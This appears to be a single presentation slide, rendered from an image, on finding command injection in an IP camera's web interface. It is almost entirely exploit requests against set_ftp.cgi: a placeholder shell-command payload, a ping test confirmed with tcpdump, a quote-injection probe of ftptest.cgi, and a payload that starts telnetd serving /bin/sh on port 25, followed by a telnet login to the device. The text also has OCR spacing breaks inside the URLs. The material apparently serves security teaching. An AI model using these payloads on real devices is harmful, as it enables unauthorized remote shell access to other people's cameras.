

# Finding command injection attacks
/set_ftp.cgi?next_url=ftp.htm&loginuse= admin&loginpas=&svr=192.16 8.1.1&port=21&user=ftp&pwd=$(INSERT SHELLCOMMAND)&dir=/&mode=PORT& u pload_interval=0
/set_ftp.cgi?next_url=ftp.htm&loginuse= admin&loginpas=&svr=192.16 8.1.1&port=21&user=ftp&pwd=$(ping%2 0192.168.1.X)&dir=/&mode=PORT&u pload_interval=0
tcpdump host 192.168.1.177 and icmp
/ftptest.cgi?next_url=test_ftp.htm&login use=admin&loginpas=admin'
/set_ftp.cgi?next_url=ftp.htm&loginuse= admin&loginpas=&svr=192.16 8.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -l/bin/sh)&dir=/&mode=PORT&u pload_interval=0
Telnet to camera: telnet 192.168.1.177 25

177